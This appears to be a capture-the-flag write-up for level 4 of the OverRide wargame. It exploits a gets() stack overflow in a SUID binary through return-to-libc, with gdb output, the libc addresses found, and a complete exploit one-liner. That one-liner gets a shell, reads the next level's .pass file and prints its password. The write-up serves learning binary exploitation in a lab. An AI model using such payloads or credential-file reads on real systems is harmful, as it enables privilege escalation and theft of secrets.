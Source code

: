# Level 4

## Vulnerability

gets() stack overflow + Return-to-libc

## Context

We find a binary with owner ```level05``` and SUID.
```
level04@OverRide:~$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

When run it gives us a hint, then reads from stdin, then exits.
```
level04@OverRide:~$ ./level04
Give me some shellcode, k
[... user input from stdin ...]
child is exiting...
level04@OverRide:~$
```

## Solution

### main() overview

First ```main()``` forks a child process, and links the child's return to the parent.

Then ```gets()``` reads stdin into a buffer.

Finally the child process is killed if it makes a syscall to exec().

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level04/disassembly_notes.md) for detailed gdb assembly breakdown.

### Find EIP offset

The ```gets()``` call is vulnerable to buffer overflow, lets try to overflow and overwrite EIP, and so take control of the program.

Because ```gets()``` is called by the child process, to investigate in gdb we need to follow the child using the command ```set follow-fork-mode child```.

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the EIP after 156 bytes.
```
level04@OverRide:~$ gdb -q level04
...
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 1701]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2A

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1701]
0x41326641 in ?? ()               // EIP offset = 156 bytes
```

### Find libc addresses

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. So let's try a return-to-libc attack. First, we need the address of ```system()```, ```exit()``` & ```"/bin/sh"```.
```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

### Build exploit

So we build our exploit string:
1. 156 byte buffer - ```python -c "print 'A' * 156"```
2. system() address - ```\xd0\xae\xe6\xf7```
3. exit() address - ```\x70\xeb\xe5\xf7```
4. "/bin/sh" address - ```\xec\x97\xf8\xf7```

Let's pipe our exploit string into the binary stdin.
```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) |./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
